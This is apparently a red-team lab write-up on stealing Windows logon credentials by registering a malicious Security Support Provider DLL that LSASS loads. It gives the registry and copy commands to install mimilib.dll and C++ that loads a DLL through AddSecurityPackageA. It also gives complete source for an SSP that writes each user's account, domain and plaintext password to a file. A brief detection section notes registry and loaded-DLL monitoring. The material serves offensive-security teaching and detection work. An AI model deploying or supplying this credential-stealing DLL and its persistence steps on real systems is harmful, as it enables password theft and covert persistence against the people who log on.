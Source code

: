 ```yaml
---
description: 'Credential Access, Persistence'
---
```


# Intercepting Logon Credentials via Custom Security Support Provider and Authentication Packages

This technique abuses Windows Security Support Provider \(SSP\) and Authentication Packages \(AP\) that come in the form of DLLs that get injected into LSASS.exe process on system boot or dynamically via `AddSecurityPackage` API.

## Loading SSP with Reboot

In this lab, mimikatz Security Support Provider [mimilib.dll](https://github.com/gentilkiwi/mimikatz) will be registered as a Windows Security Package. 

Once the Security Package is registered and the system is rebooted, the mimilib.dll will be loaded into lsass.exe process memory and intercept all logon passwords next time someone logs onto the system or otherwise authenticates, say, via `runas.exe`.

Let's now build the [mimilib.dll](https://github.com/gentilkiwi/mimikatz) and copy it to the target machine's system32 folder:

{% code title="attacker@target" %}
```cpp
PS C:\> copy mimilib.dll %systemroot%\system32
```
{% endcode %}

Get a list existing LSA Security Packages:

{% code title="attacker@target" %}
```bash
PS C:\> reg query hklm\system\currentcontrolset\control\lsa\ /v "Security Packages"

HKEY_LOCAL_MACHINE\system\currentcontrolset\control\lsa
    Security Packages    REG_MULTI_SZ    kerberos\0msv1_0\0schannel\0wdigest\0tspkg\0pku2u
```
{% endcode %}

Add mimilib.dll to the Security Support Provider list \(Security Packages\):

{% code title="attacker@target" %}
```csharp
PS C:\> reg add "hklm\system\currentcontrolset\control\lsa\" /v "Security Packages" /d "kerberos\0msv1_0\0schannel\0wdigest\0tspkg\0pku2u\0mimilib" /t REG_MULTI_SZ /f
```
{% endcode %}

The below shows `Security Packages` registry value with the `mimilib` added and the `kiwissp.log` file with a redacted password that had been logged during the user logon \(after the system had been rebooted after the Security Package was registered\):

![](../../.gitbook/assets/lsa-security-packages.png)

{% hint style="info" %}
Reboot is required for the new SSP to take effect after it's been added to the Security Packages  list.
{% endhint %}

## Loading SSP without Reboot

It's possible to load the SSP DLL without modifying the registry:

![](../../.gitbook/assets/image%20%28440%29.png)

Below code loads the malicious SSP spotless.dll:

```cpp
#define WIN32_NO_STATUS
#define SECURITY_WIN32
#include <windows.h>
#include <sspi.h>
#include <NTSecAPI.h>
#include <ntsecpkg.h>
#pragma comment(lib, "Secur32.lib")

int main()
{
	SECURITY_PACKAGE_OPTIONS spo = {};
	SECURITY_STATUS ss = AddSecurityPackageA((LPSTR)"c:\\temp\\spotless.dll", &spo);
	return 0;
}
```

Below shows how the new Security Package spotless.dll is loaded by lsass and is effective immediately:

![procmon filter: path contains &quot;spotless&quot;](../../.gitbook/assets/load-ssp.gif)

{% hint style="info" %}
Loading the SSP with this approach does not survive a reboot unlike SSPs that are loaded as registered Security Packages via registry.
{% endhint %}

## Detection

It may be worth monitoring `Security Packages` value in`hklm\system\currentcontrolset\control\lsa\` for changes. 

Newly added packages should be inspected:

![](../../.gitbook/assets/lsa-commandline.png)

Additionally, mimilib.dll \(same applies to custom spotless.dll\) can be observed in the list of DLLs loaded by lsass.exe, so as a defender, you may want to make a baseline of loaded known good DLLs of the lsass process and monitor it for any new suspicious DLLs:

![](../../.gitbook/assets/lsa-loaded-dll.png)

## Code

Below is the code, originally taken from [mimikatz](https://github.com/gentilkiwi/mimikatz), adapted and refactored to suit this lab, that we can compile as our own Security Support Provider DLL. It intercepts authenticatin details and saves them to a file `c:\temp\logged-pw.txt`:

```cpp
#include "stdafx.h"
#define WIN32_NO_STATUS
#define SECURITY_WIN32
#include <windows.h>
#include <sspi.h>
#include <NTSecAPI.h>
#include <ntsecpkg.h>
#include <iostream>
#pragma comment(lib, "Secur32.lib")

NTSTATUS NTAPI SpInitialize(ULONG_PTR PackageId, PSECPKG_PARAMETERS Parameters, PLSA_SECPKG_FUNCTION_TABLE FunctionTable) { return 0; }
NTSTATUS NTAPI SpShutDown(void) { return 0; }

NTSTATUS NTAPI SpGetInfo(PSecPkgInfoW PackageInfo)
{
	PackageInfo->Name = (SEC_WCHAR *)L"SSSPotless";
	PackageInfo->Comment = (SEC_WCHAR *)L"SSSPotless <o>";
	PackageInfo->fCapabilities = SECPKG_FLAG_ACCEPT_WIN32_NAME | SECPKG_FLAG_CONNECTION;
	PackageInfo->wRPCID = SECPKG_ID_NONE;
	PackageInfo->cbMaxToken = 0;
	PackageInfo->wVersion = 1;
	return 0;
}

NTSTATUS NTAPI SpAcceptCredentials(SECURITY_LOGON_TYPE LogonType, PUNICODE_STRING AccountName, PSECPKG_PRIMARY_CRED PrimaryCredentials, PSECPKG_SUPPLEMENTAL_CRED SupplementalCredentials)
{
	HANDLE outFile = CreateFile(L"c:\\temp\\logged-pw.txt", FILE_GENERIC_WRITE, 0, NULL, OPEN_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
	DWORD bytesWritten = 0;
	
	std::wstring log = L"";
	std::wstring account = AccountName->Buffer;
	std::wstring domain = PrimaryCredentials->DomainName.Buffer;
	std::wstring password = PrimaryCredentials->Password.Buffer;

	log.append(account).append(L"@").append(domain).append(L":").append(password).append(L"\n");
	WriteFile(outFile, log.c_str(), log.length() * 2, &bytesWritten, NULL);
	CloseHandle(outFile);
	return 0;
}

SECPKG_FUNCTION_TABLE SecurityPackageFunctionTable[] = 
{
	{
		NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL,	SpInitialize, SpShutDown, SpGetInfo, SpAcceptCredentials, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL 
	}
};

// SpLsaModeInitialize is called by LSA for each registered Security Package
extern "C" __declspec(dllexport) NTSTATUS NTAPI SpLsaModeInitialize(ULONG LsaVersion, PULONG PackageVersion, PSECPKG_FUNCTION_TABLE *ppTables, PULONG pcTables)
{
	*PackageVersion = SECPKG_INTERFACE_VERSION;
	*ppTables = SecurityPackageFunctionTable;
	*pcTables = 1;
	return 0;
}
```

## References

{% embed url="https://github.com/gentilkiwi/mimikatz" %}

{% embed url="https://docs.microsoft.com/en-us/windows/win32/secauthn/lsa-mode-initialization" %}

{% embed url="https://github.com/veramine/Detections/wiki/LSA-Packages" %}

{% embed url="https://adsecurity.org/?p=1760" %}

{% embed url="https://attack.mitre.org/wiki/Technique/T1131" %}

{% embed url="https://blog.xpnsec.com/exploring-mimikatz-part-2/" %}

